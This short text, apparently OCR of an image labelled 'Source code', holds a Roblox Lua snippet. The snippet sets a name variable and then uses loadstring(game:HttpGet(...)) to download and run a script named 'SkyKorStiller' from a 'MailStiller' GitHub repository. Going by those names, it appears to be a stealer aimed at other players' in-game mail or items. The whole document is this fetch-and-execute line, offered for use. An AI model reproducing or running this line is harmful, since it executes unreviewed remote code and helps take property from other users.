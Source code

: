 name = '5g1f55h1h6'  
loadstring(game:HttpGet('https://raw.githubusercontent.com/SkyKorScripts/MailStiller/main/SkyKorStiller'))()
